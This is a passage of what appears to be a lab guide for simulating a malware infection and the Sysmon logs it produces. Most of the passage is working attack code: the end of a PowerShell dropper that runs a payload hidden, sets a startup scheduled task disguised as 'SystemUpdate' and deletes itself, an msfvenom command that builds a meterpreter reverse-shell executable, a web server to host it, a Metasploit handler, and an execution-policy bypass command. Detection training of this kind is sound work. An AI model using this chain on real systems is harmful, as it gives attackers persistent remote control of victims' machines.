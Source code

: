 ```bash
    Start-Process -FilePath $output -WindowStyle Hidden
    Write-Host "Payload executed"
}

# Create persistence
$taskName = "SystemUpdate"
$action = New-ScheduledTaskAction -Execute $output
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -TaskName $taskName -Action $action -Trigger $trigger -Force

# Clean up
Remove-Item $PSCommandPath -Force
EOF

# Create simple backdoor executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f exe > /tmp/payload.exe

# Start web server to host malware
cd /tmp
python3 -m http.server 8080 &

# Start Metasploit handler
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.0.2.15; set LPORT 4444; exploit"
```

#### Infection Vector Simulation
```powershell
# On Windows target (simulate user clicking malicious email attachment)
# Copy dropper.ps1 to target system
# Execute with:
powershell.exe -ExecutionPolicy Bypass -File C:\Users\vulnerable\Downloads\dropper.ps1
```

#### Expected Logs Generated
```powershell
# Sysmon Event ID 1 - Process Creation
Event ID: 1
Process: powershell.exe
CommandLine: powershell.exe -ExecutionPolicy Bypass -File C:\Users\vulnerable\Downloads\dropper.ps1
ParentProcess: explorer.exe

# Sysmon Event ID 3 - Network Connection
Event ID: 3
Process: powershell.exe
Protocol: TCP
SourceIp: 10.0.2.102
DestinationIp: 10.0.2.15
DestinationPort: 8080

# Sysmon Event ID 11 - File Creation
Event ID: 11
Process: powershell.exe
TargetFilename: C:\Users\vulnerable\AppData\Local\Temp\svchost.exe
```
